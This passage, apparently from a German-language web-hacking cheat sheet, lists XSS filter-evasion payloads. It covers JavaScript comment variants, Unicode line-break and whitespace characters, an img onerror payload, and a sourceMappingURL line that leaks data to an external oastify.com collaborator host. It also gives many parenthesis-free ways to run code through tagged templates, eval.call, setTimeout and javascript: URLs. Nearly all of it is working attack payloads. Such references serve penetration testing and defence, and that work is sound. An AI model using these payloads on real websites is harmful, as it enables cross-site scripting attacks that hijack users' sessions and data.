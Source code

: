 **Raumsubstitutionen innerhalb von JS-Code**
```javascript
<TAB>
/**/
```
**JavaScript-Kommentare (aus** [**JavaScript-Kommentare**](./#javascript-comments) **Trick)**
```javascript
//This is a 1 line comment
/* This is a multiline comment*/
<!--This is a 1line comment
#!This is a 1 line comment, but "#!" must to be at the beggining of the first line
-->This is a 1 line comment, but "-->" must to be at the beggining of the first line
```
**JavaScript-Zeilenumbrüche (aus** [**JavaScript-Zeilenumbruch**](./#javascript-new-lines) **Trick)**
```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10); alert('//\nalert(1)') //0x0a
String.fromCharCode(13); alert('//\ralert(1)') //0x0d
String.fromCharCode(8232); alert('//\u2028alert(1)') //0xe2 0x80 0xa8
String.fromCharCode(8233); alert('//\u2029alert(1)') //0xe2 0x80 0xa9
```
**JavaScript Leerzeichen**
```javascript
log=[];
function funct(){}
for(let i=0;i<=0x10ffff;i++){
try{
eval(`funct${String.fromCodePoint(i)}()`);
log.push(i);
}
catch(e){}
}
console.log(log)
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```
**Javascript innerhalb eines Kommentars**
```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```
**JavaScript ohne Klammern**
````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
// or any DOMXSS sink such as location=name

// Backtips
// Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`
````